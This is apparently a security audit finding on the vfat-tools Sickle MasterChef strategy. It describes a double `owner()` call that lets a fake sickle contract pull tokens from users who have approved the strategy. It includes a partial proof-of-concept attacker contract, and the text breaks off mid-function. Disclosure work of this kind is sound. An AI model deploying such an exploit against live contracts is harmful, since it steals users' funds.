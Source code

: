 #### Technical Details

We take the [MasterChef strategy's](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L59) `masterChef_deposit()` function as an example.

When calling the function, the modifier `checkOwner()` is called to check if the `msg.sender` is the owner of the sickle.

[StrategyBase.sol:20](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/StrategyBase.sol#L20)
```solidity
modifier checkOwner(address sickleAddress) {
        Sickle sickle = Sickle(payable(sickleAddress));

        if (msg.sender != sickle.owner()) revert NotOwner();

        _;
}
```

Later on in the function the `sickle.owner()` is called again when transferring the ERC20 token to the sickle.

[MasterChefStrategy.sol:84](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L84)

```solidity
IERC20(zapData.tokenIn).transferFrom(
    sickle.owner(), sickleAddress, zapData.amountIn
);
```

Because there is no check in the code to make sure the passed sickle contract is legit. If someone is able to pass a contract that would return `msg.sender` on the first call, then the address of an account with an approval on the strategy on the second call, they would be able to steal the tokens.

Here is a POC:

Malicious contract that can be used to attack with `masterChef_deposit()` function.

```solidity
contract MaliciousSickle {
    address badOwner; //address of the attacker
    address innocent; //address of an innocent with an approval on the MasterChef strategy
    address public registry;

    constructor(address badOwner_, address innocent_, address registry_) {
        badOwner = badOwner_;
        innocent = innocent_;
        registry = registry_;
    }

    function owner() public view returns (address) {
        uint256 gas = gasleft();
        console.log(gas);
        //use gasleft to decide which owner to return, if calling with 500k
        //The first call should correspond to this gas left.
        if (gas == 489_661) {
            console.log(gasleft());
            return badOwner;
        }
        return innocent;
    }

    function transfer(
        address token,
        address to,
        uint256 value
```